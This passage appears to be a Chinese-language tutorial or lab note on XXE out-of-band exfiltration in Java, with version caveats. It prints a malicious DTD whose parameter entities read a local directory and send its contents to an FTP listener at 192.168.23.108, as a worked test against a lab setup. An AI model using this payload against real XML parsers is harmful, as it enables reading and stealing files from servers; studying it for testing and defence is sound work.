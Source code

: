 启动后生成的恶意DTD为

```dtd
<!ENTITY % bbb SYSTEM "file:///tmp/"><!ENTITY % ccc "<!ENTITY &#37; ddd SYSTEM 'ftp://fakeuser:%bbb;@192.168.23.108:2121/b'>">
```

发送payload

![image-20231101221543104](../../images/image-20231101221543104.png)

查看ftp日志，得到外带数据

![image-20231101221612694](../../images/image-20231101221612694.png)

注意点：

- jdk版本 小于 7u141 和 小于 8u162 才可以读取整个文件

- 有特定字符时无法读取

  我这里是JDK8u371，文件中含有`' & % / #`时无法读取

- 别人的测试结果
